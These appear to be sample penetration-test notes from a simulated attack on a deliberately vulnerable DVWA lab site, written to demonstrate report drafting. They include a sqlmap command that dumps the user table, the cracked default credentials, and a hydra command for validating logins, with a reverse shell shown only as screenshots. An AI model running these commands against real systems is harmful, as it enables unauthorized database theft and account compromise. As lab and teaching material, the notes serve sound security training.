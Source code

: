 # Introduction

This document contains some sample notes from a simulated test of a DVWA instance.  Follow the [Tutorial](Tutorial.md) for a sample workflow of how to slice these notes up into the way you'd like them to appear in the report.

# Target - `dvwa.pwn.me` 172.16.0.9/24

Scope of test is limited to the single subdomain/virtual host `dvwa.pwn.me` on host `172.16.0.9/24`. 

## Enumeration

![dvwa-nmap-scan](../img/dvwa-nmap-scan.png)

![](../img/redirect-to-login-page.png)
Accessing `http://dvwa.pwn.me` takes us via redirect to `/login.php`.

![](../img/login-with-default-creds.png)

We can login with `admin:password`.

![](../img/https-not-supported.png)
HTTPS is configured on the host, but the target site is not accessible through HTTPS.  

# Foothold - reverse shell
## Testing command injection
![](../img/command-injection.png)
![](../img/receiving-shell-as-default-apache-user.png)
# Database - SQL injection vulnerability
![](../img/database-sql-injection-vulnerability.png)

![](../img/captured-sqli-request-for-use-with-sqlmap.png)



## Database dump leads to other users
![](../img/database-dump-with-cracked-webapp-user-credentials.png)

```bash
sqlmap -r dvwa.req --dump --batch
```
- `-r`: use the specified request file
- `--dump`: dump everything reachable
- `--batch`: assume default answers for `sqlmap` prompts; i.e. fully automatic

Using `sqlmap`, we were able to dump the entire DVWA user table, including cracked password hashes, shown below.

```
admin:password
gordonb:abc123
1337:charley
pablo:letmein
smithy:password
```

## Validating user creds by authenticating to webapp

![](../img/validating-user-credentials-with-hydra.png)
```bash
hydra -C creds dvwa.pwn.me  http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"
```

Using `hydra`, we validated the credentials dumped from the DVWA users table.


# Flags

## `user`
![](../img/user-flag2.png)

As the `www-data` user, discovered flag at `/home/user/.flag2.txt`.
Readable only by `user`
